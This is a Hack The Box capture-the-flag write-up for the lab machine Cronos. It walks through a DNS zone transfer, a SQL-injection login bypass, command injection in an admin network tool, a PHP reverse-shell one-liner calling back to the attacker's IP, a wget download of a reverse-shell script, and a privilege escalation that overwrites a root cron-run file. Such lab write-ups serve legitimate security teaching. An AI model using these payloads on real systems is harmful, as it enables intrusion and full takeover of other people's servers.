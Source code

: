 # HTB - Cronos

#### Ip: 10.10.10.13
#### Name: Cronos
#### Rating: Medium

----------------------------------------------------------------------

Cronos.png

### Enumeration

As always, lets begin enumerating this box with an Nmap scan covering all TCP ports. When doing CTFs like this I like to add the `--min-rate 10000` flag to speed things along:

```text
┌──(ryan㉿kali)-[~/HTB/Cronos]
└─$ sudo nmap -p- --min-rate 10000 10.10.10.13 
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-27 12:32 CDT
Nmap scan report for 10.10.10.13
Host is up (0.084s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
53/tcp open  domain
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 6.86 seconds
```
Ok interesting. We have the classic ports 22 and 80 combo so frequently found on Linux CTFs, but also we see DNS port 53 open. While not unheard of by anymeans, it's also not very common either, and will likely be what I first focus on.

Let's further enumeratie the open ports using the `-sC` and `-sV` flags to use default scripts and enumerate versions, along with the `-T4` flag to speed things up:

```text
┌──(ryan㉿kali)-[~/HTB/Cronos]
└─$ sudo nmap -sC -sV -T4 10.10.10.13 -p 22,53,80
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-27 12:36 CDT
Nmap scan report for 10.10.10.13
Host is up (0.14s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 18b973826f26c7788f1b3988d802cee8 (RSA)
|   256 1ae606a6050bbb4192b028bf7fe5963b (ECDSA)
|_  256 1a0ee7ba00cc020104cda3a93f5e2220 (ED25519)
53/tcp open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.29 seconds
```

This didn't find anything too juicy for us. SSH is a pretty safe and well built protocol, so not many vulnerabilities there. It looks like we've got Apache 2.4.18 on pert 80/http landing on Apache's default "It Works" page. 

Let's take a quick look at DNS before turning our attention to http.

Going out on a limb based on past experience with HTB machines, their typical hostname format is box-name.htb. There are exceptions to this (sometimes AD boxes will just be HTB.local, etc), but first thing I'm going to try is a zone transfer using cronos.htb and the ip:

dns.png

Nice! Were successfully able to do a zone transfer and get a few more targets to investigate. 

After adding all of these to my `/etc/hosts file`, my immediate attention goes to admin.cronos.htb. Let's check that out.

admin_login.png

I'm met with just a simple login page. Checking out the source code for this page using `ctrl + u` doesn't yield anything juicy, and I'm unable to login with the standard weak credentials like admin:admin, admin:password, admin:cronos, root:root, etc. 

Let's try throwing some SQL injections to bypass the login at it. It took a bit a playing around, but in the end one of the most classic login bypasses worked for me: `' or 1=1-- - ` logged me in where I found this interesting feature:

net_tool.png

Let's intercept a request using BurpSuite to look more closely at what's going on here. 

burp.png

Ok cool, so it looks like the request has a command portion as well as a host. I know from the site that I can use both traceroute as well as ping as commands. I wonder if I can issue other common linux commands here? 

Sending the request to Repeater in Burp, I remove the default 8.8.8.8 address and see if I can get execution of other commands:

```text
command=id&host=
```

Nice! Looking at the response, we have execution here:

execution.png

Let's see if we can try something more malicious now.

### Exploitation

Going to www.revshells.com I grab a php reverse shell one-liner to see if I can catch a reverse shell exploiting this execution.

I grab `php -r '$sock=fsockopen("10.10.14.20",443);exec("sh <&3 >&3 2>&3");'` and URL encode it (You can conveniently do this on revshells.com or simply paste it into Burp, highlight it and enter `ctrl + u` to URL encode)

After setting up a listener and sending the request, I get a callback to my machine as www-data.

callback.png

I can quickly stabilize this shell by issuing:

```python
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
And then grab the user.txt flag:

user_flag.png

### Privilege Escalation

Quick aside, HTB is such a great site and has been invaluable to my own learning and practice, but one small beef I have with them (especially older boxes like this one) is the clues they leave when naming the boxes. I believe they may be moving away from this, but with a name like Cronos, my first thoughts when it comes to privesc is checking out cron-jobs on the machine. It's clever and all, but I would prefer a more black-box, not knowing what I'm walking into type experience.

Ok rant over, back to work. Lets see if we can see any interesting cron-jobs:

Interesting:

crontab.png

Looks like this file is being run every minute with root permissions. Let's do a little more investigation here, and see if we can write to this file:

```text
www-data@cronos:/var/www/laravel$ ls -la artisan
ls -la artisan
-rwxr-xr-x 1 www-data www-data 1646 Apr  9  2017 artisan
```

Sweet, looks like all we need to do here is inject a php reverse shell into this file, set up a listener and wait for our root shell to arrive. Let's do it:

First I need to transfer from my machine to Cronos a copy of php-reverse-shell.php, after updating the script to reflect my Ip and port I'll be listening on:

php_shell.png

Then I set up a Python http.server with `python -m http.server 80` and grab the file using wget:

```text
www-data@cronos:/var/www/laravel$ wget http://10.10.14.20/php-reverse-shell.php
<ravel$ wget http://10.10.14.20/php-reverse-shell.php                        
--2023-04-27 21:55:28--  http://10.10.14.20/php-reverse-shell.php
Connecting to 10.10.14.20:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 5521 (5.4K) [application/octet-stream]
Saving to: 'php-reverse-shell.php'

php-reverse-shell.p 100%[===================>]   5.39K  --.-KB/s    in 0.001s  

2023-04-27 21:55:28 (6.26 MB/s) - 'php-reverse-shell.php' saved [5521/5521]
```

From here all I need to do is set up my listener and overwrite the artisan file with my shell:

`www-data@cronos:/var/www/laravel$ cp php-reverse-shell.php artisan`

After waiting just a few seconds (may take up to one minute) I got a call back to my listener as root:

```text
┌──(ryan㉿kali)-[~/HTB/Cronos]
└─$ nc -lnvp 8888
listening on [any] 8888 ...
connect to [10.10.14.20] from (UNKNOWN) [10.10.10.13] 45270
Linux cronos 4.4.0-72-generic #93-Ubuntu SMP Fri Mar 31 14:07:41 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 21:56:01 up  6:15,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=0(root) gid=0(root) groups=0(root)
/bin/sh: 0: can't access tty; job control turned off
# cd /root
# whoami
root
# hostname
cronos
```
All that's left to do is grab the root.txt flag:

root_flag.png

And that's all she wrote! This was a fun box that reinforced some classic concepts. I enjoyed playing with DNS, the login bypass via SQLI, as well as exploiting the functionality of admin.cronos.htb to get RCE on the box. This is an older box that in my opinion should have been rated 'Easy', but I had a fun time with it nonetheless.

Thanks for following along!

-Ryan

--------------------------------------------------------------------------------

